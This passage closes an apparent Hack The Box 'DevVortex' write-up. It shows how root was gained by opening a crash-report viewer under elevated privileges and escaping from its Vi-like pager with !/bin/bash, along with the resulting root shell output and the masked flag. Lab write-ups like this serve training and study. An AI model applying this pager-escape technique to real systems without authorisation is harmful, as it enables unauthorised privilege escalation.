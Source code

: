 ```
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):
```

By choosing to view the report, a Vi-like editor appeared, and I immediately remembered that by passing the !:command syntax, I could execute code. Since I was running the binary in a privileged context, I could gain root access by executing !/bin/bash:
![](../../../assets/htb/devvortex/devvortex.vim.exec.shell.png)

I successfully gained root access and accessed the root.txt file:
```
What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/home/logan# cat ~/root.txt
37c6************************0d3a
```

## Conclusion
The DevVortex box presented a challenging and educational experience, highlighting the importance of meticulous reconnaissance, vulnerability exploitation, and creative problem-solving in privilege escalation. This journey from an initial nmap scan to obtaining root access underscores the complexities and excitement inherent in penetration testing and cybersecurity exploration.